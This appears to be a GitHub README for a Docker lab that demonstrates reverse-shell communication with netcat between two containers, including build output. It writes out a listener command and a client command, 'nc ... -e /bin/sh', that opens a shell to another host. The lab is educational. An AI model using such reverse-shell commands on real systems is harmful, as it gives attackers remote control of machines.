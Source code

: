 # Example of reverse shell communication with `netcat`

This example contains a collection of [ubuntu](https://hub.docker.com/_/ubuntu/) Docker containers, orchestrated with [docker-compose](https://docs.docker.com/compose/) to illustrate the basic mechanics of reverse-shell communication using `netcat`.

```
.
├── client
│   └── Dockerfile
├── develop-net
│   └── Dockerfile
├── docker-compose.yml
└── web
    └── Dockerfile
```

### Build the `develop-net` base image

This image uses in `netcat` for implementing the reverse shell, while `telnet` and `iputils-ping` are only installed for purposes like testing connectivity.

```
$ docker build -t infosecrnd/develop-net develop-net/
Sending build context to Docker daemon 2.048 kB
Step 1 : FROM ubuntu
 ---> cf62323fa025
Step 2 : RUN apt-get update && apt-get -y install netcat telnet iputils-ping
 ---> Using cache
 ---> a9414c08589d
Successfully built a9414c08589d
```

### Building and running with `docker-compose`

1. **netcatreverseshell\_web\_1** acts as a "web" server, listening for incomming traffic: `nc -p 8080 -l`.
2. **netcatreverseshell\_client\_1** sends a friendly greeting to the "web" server, including variables from the client's environment: `/bin/sh -c echo ${HOSTNAME}: Hello World`.


```
$ docker-compose up -d --build
Creating network "netcatreverseshell_default" with the default driver
Building web
Step 1 : FROM infosecrnd/develop-net
 ---> a9414c08589d
Step 2 : CMD nc -p 8080 -l
 ---> Using cache
 ---> 9c58d2e05d26
Successfully built 9c58d2e05d26
Building client
Step 1 : FROM infosecrnd/develop-net
 ---> a9414c08589d
Step 2 : CMD nc netcatreverseshell_web_1 8080 -e /bin/sh -c echo ${HOSTNAME}: Hello World
 ---> Using cache
 ---> 702b01ece3b9
Successfully built 702b01ece3b9
Creating netcatreverseshell_web_1
Creating netcatreverseshell_client_1
```


```
$ docker logs netcatreverseshell_web_1 
85e2014c7364: Hello World
```
